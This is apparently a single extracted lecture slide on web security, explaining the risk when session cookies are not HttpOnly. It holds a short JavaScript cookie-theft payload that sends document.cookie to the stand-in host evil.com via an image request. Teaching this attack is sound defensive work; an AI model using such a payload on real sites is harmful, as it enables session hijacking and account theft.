

#
 if your session cookies aren’t HttpOnly

var i = new Image();
i.src = 'http://evil.com/record?' + document.cookie;
body.appendChild(i);

Grabbing every cookie
105